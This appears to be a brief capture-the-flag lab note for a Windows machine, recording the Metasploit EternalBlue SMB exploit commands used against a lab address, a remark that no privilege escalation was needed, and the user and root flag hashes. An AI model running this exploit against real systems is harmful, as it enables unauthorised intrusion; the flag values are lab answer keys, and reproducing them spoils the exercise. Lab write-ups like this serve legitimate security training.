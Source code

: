 # blue hmmm..... EternalBlue????
# lets try a smb exploit from metasploit


### [EXPLOIT]
    use windows/smb/ms17_010_eternalblue)
    set rhosts 10.10.10.40
    set lhost 10.10.14.19


### [Priv Esc]
    NONE: got in as admin


### [FLAGS]
    ff548eb71e920ff6c08843ce9df4e717 C:\users\administrator\desktop\root.txt
    4c546aea7dbee75cbd71de245c8deea9 C:\users\haris\desktop\user.txt
